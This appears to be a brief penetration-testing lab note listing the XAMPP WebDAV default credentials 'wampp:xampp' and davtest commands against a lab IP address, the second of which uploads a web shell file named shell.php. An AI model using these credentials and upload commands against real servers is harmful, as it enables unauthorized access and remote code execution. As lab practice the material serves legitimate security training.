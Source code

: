 
### Default Credentials

```bash
wampp:xampp
```

```bash
davtest -url http://10.10.49.246/davdir -auth 'wampp:xampp'
davtest -url http://10.10.49.246/webdav -auth 'wampp:xampp' -uploadfile shell.php -uploadloc shell.php
```

